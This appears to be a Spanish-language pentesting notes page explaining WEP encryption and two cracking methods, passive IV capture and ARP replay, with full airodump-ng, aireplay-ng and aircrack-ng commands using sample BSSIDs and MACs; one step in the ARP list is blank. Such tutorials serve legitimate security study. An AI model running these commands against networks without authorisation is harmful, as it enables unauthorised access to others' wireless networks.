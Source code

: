 # WEP

## Cómo funciona

Wired Equivalent Privacy (WEP) es un protocolo hoy en día obsoleto para conectar de manera inalámbrica dispositivos en una red lan. Funciona de la siguiente manera:

1. Un cliente quiere enviar un paquete de manera segura en la red, por lo que en conjunto con la **clave de la red** inalámbrica y un vector de inicialización **IV,** encriptará el contenido del mensaje.
2. El mensaje es enviado a través de la red junto con el IV en **texto plano**.
3. El receptor como ya tiene la contraseña, y ahora recibió el IV, podrá desencriptar los mensajes que le lleguen.

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

## Explotación

La forma de crackear WEP consta de dos pasos:

1. Capturar muchos paquetes con sus respectivos IV's.
2. Ya que solo al tener una longitud de 24bits los IV's se repetirán en algún momento, esto nos permitira crackear la contraseña.



### Método 1: Red con mucho tráfico

Este método se basa en la captura pasiva de paquetes para extraer su IV's, por lo que es clave que la red se esté utilizando, de lo contrario no se podrán conseguir los IV's necesarios para obtener la contraseña.

**Captura de los IV's:**

```
airodump-ng --bssid <bssid> --channel <n> --write <outfile> wlxd0374534e4d2
airodump-ng --bssid 5C:E2:8C:55:88:B8 --channel 6 --write wep_network wlxd0374534e4d2
```

**Crackeo de la contraseña:**

```
aircrack-ng <captura>.cap
```



### Método 2: ARP Replay

Este ataque viene a solucionar el problema del ataque anterior, si no tráfico en la red, no se generarán los suficientes IV's para crackearlos. Por lo que entra en juego el protocolo ARP para llevar a cabo este ataque, en el que se intercepta un paquete ARP legítimo de la red, solo que se modifica la dirección MAC de destino.

Pasos a seguir:

1. Se envía un paquete ARP al router víctima
2. El router lo captura y retransmite
3.
4. Estos paquetes están encriptados, por lo que son generados nuevos IV's
5. Con los IV's suficientes se puede obtener la contraseña

**Captura de los IV's:**

```bash
airodump-ng --bssid <bssid> --channel <n> --write <outfile> wlxd0374534e4d2
airodump-ng --bssid 5C:E2:8C:55:88:B8 --channel 6 --write wep_network wlxd0374534e4d2
```

**Asociar un cliente a la red:**

```bash
aireplay-ng --fakeauth 0 -a <bssid> -h <mac-monitor> <name-iface>
aireplay-ng --fakeauth 0 -a 5C:E2:8C:55:88:B8 -h 16:B4:A3:E9:C1:A1 wlxd0374534e4d2
```

**Generar paquetes ARP:**

```bash
aireplay-ng --arpreplay -b <bssid> -h <mac-monitor> <name-iface>
aireplay-ng --arpreplay -b 5C:E2:8C:55:88:B8 -h 16:B4:A3:E9:C1:A1 wlxd0374534e4d2
```

**Crackear IV's:**

```bash
aircrack-ng <captura>.cap
```

